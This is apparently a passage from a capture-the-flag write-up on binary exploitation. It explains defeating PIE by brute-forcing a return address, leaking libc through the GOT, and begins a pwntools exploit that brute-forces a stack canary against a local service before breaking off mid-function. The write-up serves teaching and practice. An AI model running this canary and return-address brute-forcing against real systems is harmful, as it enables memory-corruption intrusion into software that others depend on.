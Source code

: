 **Brute-Forcing the Return Address to Bypass PIE**
We already leaked or brute-forced the **stack canary**, and now we want to **find the full return address** on the stack to bypass **PIE** (Position Independent Executable).
From the program behavior, we know:
- The return address points to `main+457`, for example:
```plaintext
0x56657562dafe
```
- When the **correct return address** is in place, the program prints `"Goodbye"` — this gives us clear feedback during brute-forcing.

- PIE randomizes the **base address** of the binary every run.
- But if we know the address of `main+457`, and we know the offset of `main` from the ELF base, we can calculate the base address like this:
```plaintext
elf_base = leaked_ret_address - offset_of_main_plus_457
```

> This technique allows us to defeat PIE without a memory leak — just behavior-based brute force.
{: .prompt-info}

**Leaking the Libc Base Address** 
Now that we’ve recovered:
- ✅ The **PIE base address** (by brute-forcing the return address and subtracting the known offset of `main+457`) 
- ✅ The **stack canary**

We’ll use the **GOT (Global Offset Table)** to leak the actual address of a libc function. For example, we can print the address of `__libc_start_main` from the GOT:
```plaintext
puts(@GOT[__libc_start_main])
```

Once we leak the runtime address of `__libc_start_main`, we simply subtract its known offset from libc (e.g. `0x24083`):
```plaintext
libc_base = leaked_libc_start_main - libc.symbols['__libc_start_main']
```

> Use `puts(@got[func])` to leak any libc symbol, then resolve the full libc base from it.
{: .prompt-tip}


## Exploit
```python
from pwn import *

canary_offset = 0x28
ret_offset = 0x38

def brute_canary():
    fixed = b"\x00"
    canary = fixed
    while len(canary) < 0x8:
        for byte in range(0x0,0xff):
            with remote("127.0.0.1",1337) as p:
                payload = b"A"*canary_offset + canary + p8(byte)

                p.send(payload)
                res = p.recvall(timeout=1)

                if b"*** stack smashing detected ***" not in res:
                    canary += p8(byte)
                    break
    return canary    

def brute_ret(canary):
    ret = b"\xfe"
```